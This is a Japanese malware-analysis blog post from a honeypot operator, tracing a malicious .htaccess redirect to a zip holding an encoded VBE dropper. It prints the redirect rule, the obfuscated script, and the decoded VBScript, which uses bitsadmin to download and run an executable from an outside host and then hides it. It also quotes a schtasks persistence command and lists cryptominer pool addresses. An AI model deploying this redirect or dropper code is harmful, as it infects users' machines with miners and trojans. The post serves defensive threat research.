 title: .htaccessで悪質なサイトへ誘導する手法
date: 2016-01-21 23:45:06
tags: [honeypot, dionaea]
---

Dionaeaにて.htaccessを使ってマルウェア配布サイトへ誘導する手法を観測しました.  

```
RewriteEngine on 
RewriteCond %{HTTP_REFERER} ^(.*)google\.(.*) 
RewriteRule .* http://testswork.ru/info.zip [L]
```

Google検索経由でアクセスした場合, hxxp://testwork.ru/info.zip へとアクセスさせています.  

#### testwork.ru

###### VirusTotalでのスキャン結果

* [https://www.virustotal.com/ja/domain/testswork.ru/information/](https://www.virustotal.com/ja/domain/testswork.ru/information/)

###### urlQueryでのスキャン結果

* [https://urlquery.net/report.php?id=1453389404756](https://urlquery.net/report.php?id=1453389404756)

#### info.zip

| filename | SHA256 |
|:--------:|:-------|
| info.zip | 29f2a333e29f56de652bb676323873e92406050c4e222fb9c141b228558a76f1 |

###### VirusTotalでのスキャン結果  

* [https://www.virustotal.com/ja/file/29f2a333e29f56de652bb676323873e92406050c4e222fb9c141b228558a76f1/analysis/1453388291/](https://www.virustotal.com/ja/file/29f2a333e29f56de652bb676323873e92406050c4e222fb9c141b228558a76f1/analysis/1453388291/)

info.zipの中にはinformation.vbeのみがありました.  

```
#@~^rAIAAA==Y~q/4?V^~',Z.+mYn6(L+1O`?1.rwDRUtnVsE*@#@&OPUY.nm:Px~;DnlDn}4mD`Jzf}9Ac?OlhE*@#@&@#@&q6PqdODvFjm.raY s!sVglhnBj^Mk2YcnX+EBF*@*!,K4nx,@#@&Pd4Ut+^sR"Ex,E/?1DbwOPEEr[?1.kaY j1Dk2OwEsVgCs+'rJrJ~Z),?1DrwDR};bY@#@&3x9Pk6@#@&@#@&KswxJYPAHK]'O:a  nX+J@#@&`Ds'r4DY2=zJY+kYkAWM3 D!zOha a+r@#@&@#@&3m4W{fG//Gs:Cx9cJ1:[~JmP8rD/CNsrP&DDmx/6+M~h4lO+7+.~r[jMs[rPJLPhwLJ,['PdOmDOPJ8Pr[Pha[J~',lOYMr(PQ4Pr[KswBfvZ!T!*@#@&31tW{9WkZWshCx9`rmhN~&1Pnm4GD.GMPcT*,@*~cZ*cYaDJBF!Z!Zb@#@&@#@Um.raYR5;kD@#@&@#@&oEmDkGx~9K//WshlNc^K::CU9~dna#@#@&P,?+DPqdtA6nmd4Ut+^sRA6+1c^Ws:mx[#l~q?^Db2Yc?swPd+2),kt3X+1RDsrxmYn`*@#@&~,fWk/Ws:l[ktA6nm jDN6ED l[)^V@#@&3N~0!U1YrKxwcsAAA==^#~@]]`]}])]]']]]]}`'")'
```

このように難読化されていました.  
この難読化には下記のツールが使用されたと思われます.  

* [https://gallery.technet.microsoft.com/Encode-and-Decode-a-VB-a480d74c](https://gallery.technet.microsoft.com/Encode-and-Decode-a-VB-a480d74c)

デコードも可能であるため, 試したところ以下のようなVBスクリプトとなりました.  

```
Set WshShell = CreateObject("WScript.Shell")
Set Stream = CreateObject("ADODB.Stream")

If Instr(1,WScript.FullName,"WScript.exe",1)>0 Then 
  WshShell.Run "CScript """&WScript.ScriptFullName&"""",0: WScript.Quit
End if

Tmp="%TEMP%\tmp2.exe"
Url="http://testswork.ru/tmp2.exe"

Echo=DosCommand("cmd /c bitsadmin /transfer whatever "&Url&" "&Tmp&" && start /b "&Tmp&" & attrib +h "&Tmp,360000)
Echo=DosCommand("cmd /c echo error 404 > 404.txt",10000)

WScript.Quit

Function DosCommand(command,sleep)
  Set WshExec=WshShell.Exec(command): WScript.Sleep sleep: WshExec.Terminate()
  DosCommand=WshExec.StdOut.ReadAll
End function
```

%TEMP%にtmp2.exeをダウンロードして実行する, いわゆるドロッパーですね.  
attrib +h でファイルを隠したりもしてます.  


###### malwr.comでのスキャン結果

* [https://malwr.com/analysis/NTQ1ZGQ5OGY2Mjk3NGMwZThjNjExMThlZmRlZTFlZTY/](https://malwr.com/analysis/NTQ1ZGQ5OGY2Mjk3NGMwZThjNjExMThlZmRlZTFlZTY/)

###### hybrid-analysisでのスキャン結果

* [https://www.hybrid-analysis.com/sample/26337534fb67553e07eb6568cd272153120d6b2b565148392e8a13287f367a5e?environmentId=1](https://www.hybrid-analysis.com/sample/26337534fb67553e07eb6568cd272153120d6b2b565148392e8a13287f367a5e?environmentId=1)

#### tmp2.exe

すでにtmp2.exeはダウンロードできなくなっていましたが, オンラインスキャナに上がっていました.  
  
FTPサーバーを立てたりIMG001.exeをダウンロードしてます.  
ダウンロードしたIMG001.exeは HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run などのレジストリや schtasks /create /tn "UAC" /SC ONLOGON /F /RL HIGHEST /TR のようなコマンドでスケジューラに登録して自動起動するようにされます.  
また, powercfg.exeで電源設定などを変更するようです.  


###### hybrid-analysisでのスキャン結果

* [https://www.hybrid-analysis.com/sample/5616b94f1a40b49096e2f8f78d646891b45c649473a5b67b8beddac46ad398e1?environmentId=1](https://www.hybrid-analysis.com/sample/5616b94f1a40b49096e2f8f78d646891b45c649473a5b67b8beddac46ad398e1?environmentId=1)


#### IMG001.exe

Bitcoin Minerだったり, Trojanだったりいくつかあるようです.  
[https://www.hybrid-analysis.com/search?query=IMG001.exe](https://www.hybrid-analysis.com/search?query=IMG001.exe)  


pools.txtというテキストファイルにはBitcoinのプールのアドレスが記述されていました.  

```
stratum+tcp://mine.moneropool.com:8080
stratum+tcp://mine.moneropool.com:3336
stratum+tcp://xmr.hashinvest.net:443
stratum+tcp://xmr.hashinvest.net:5555
stratum+tcp://monero.crypto-pool.fr:3333
stratum+tcp://monerohash.com:5555
stratum+tcp://mine.xmr.unipool.pro:3333
stratum+tcp://xmr.prohash.net:5555
stratum+tcp://xmr.miner.center:2777
stratum+tcp://mine.xmr.unipool.pro:80
stratum+tcp://pool.minexmr.com:7777
stratum+tcp://cryptonotepool.org.uk:7777
stratum+tcp://mro.poolto.be:3000
```

これらのファイルは「Nullsoft Installer」で作成されており, 展開することができます.  

#### 参考

* [ハニーポットにFTP経由で設置されたファイル調査メモ (2016/01/20) - (n)inja csirt](http://csirt.ninja/?p=280)





